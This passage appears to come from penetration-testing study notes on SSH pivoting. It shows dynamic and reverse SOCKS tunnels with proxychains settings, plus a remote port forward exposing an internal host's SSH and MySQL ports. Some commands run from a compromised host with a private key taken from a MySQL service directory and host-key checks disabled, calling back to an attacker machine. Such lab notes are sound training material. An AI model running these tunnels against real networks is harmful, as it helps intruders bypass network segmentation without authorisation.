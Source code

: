 ```bash
kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
student@10.11.0.128's password:

kali@kali:~$ cat /etc/proxychains.conf
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 8080
```

Scenario 2:

![](../../zzz_res/attachments/DynamicTunneling2.png)

## SSH Dynamic Reverse Tunnel

```bash
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@10.11.0.4

kali@kali:~$ cat /etc/proxychains.conf
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 1080
```

By not including a host after the port, ssh is instructed to create a SOCKS proxy on our Kali server (only newer version of SSH). Then it is possible to use [proxychains](../Tools/proxychains.md) to send the network traffic through the SSH tunnel

## SSH non-interactive tunnel

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.119.209
```
